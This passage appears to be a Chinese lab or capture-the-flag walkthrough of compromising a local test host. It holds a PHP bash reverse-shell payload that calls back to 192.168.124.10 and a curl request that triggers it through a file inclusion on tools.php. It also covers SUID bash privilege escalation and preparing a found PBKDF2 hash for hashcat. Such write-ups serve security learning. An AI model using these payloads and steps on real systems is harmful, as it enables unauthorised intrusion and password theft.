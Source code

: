 ![Pasted image 20250202185858.png](/img/user/picture/Pasted%20image%2020250202185858.png)

可以看到确实可以


修改test.txt
```txt
shell_exec('bash -c "bash -i >& /dev/tcp/192.168.124.10/443 0>&1"');
```
再触发一下
```shell
curl -X POST -d "flowermagic=http://192.168.124.10/test.txt" "http://192.168.124.22/tools.php"
```
![Pasted image 20250202193119.png](/img/user/picture/Pasted%20image%2020250202193119.png)


拿到webshell



# 提权-1（白给版）

用脚本扫一下
![Pasted image 20250202195031.png](/img/user/picture/Pasted%20image%2020250202195031.png)

**/usr/bin/bash**：具有SUID和SGID权限的bash。如果能够执行这个bash，可能会直接获得root shell。可以尝试执行`/usr/bin/bash -p`，-p参数会保留有效用户ID，可能直接提权。

![Pasted image 20250202195120.png](/img/user/picture/Pasted%20image%2020250202195120.png)




```shell
curl -X POST -d "flowermagic=http://192.168.124.10/test.txt" "http://192.168.124.23/tools.php"
```






# 提权-2.1

![Pasted image 20250203114025.png](/img/user/picture/Pasted%20image%2020250203114025.png)
在网站这个目录下发现有一个隐藏的密码备份
```txt
pbkdf2:sha256:50000:flower:0916690d7bc2f92a0e1f1640ce7ee22e988843323efb8c8e43064eafed92b028
```

尝试用hashcat破解

![Pasted image 20250203125523.png](/img/user/picture/Pasted%20image%2020250203125523.png)

```shell
> echo -n "0916690d7bc2f92a0e1f1640ce7ee22e988843323efb8c8e43064eafed92b028" | xxd -r -p|base64
CRZpDXvC+SoOHxZAzn7iLpiIQzI++4yOQwZOr+2SsCg=

> echo -n "flower" | base64
Zmxvd2Vy

```
//其中密文要先将从16进制还原为原始的二进制格式，再将其进行base64编码
![Pasted image 20250203144510.png](/img/user/picture/Pasted%20image%2020250203144510.png)
//我也是才知道，对于密码方面我的经验还是太少了
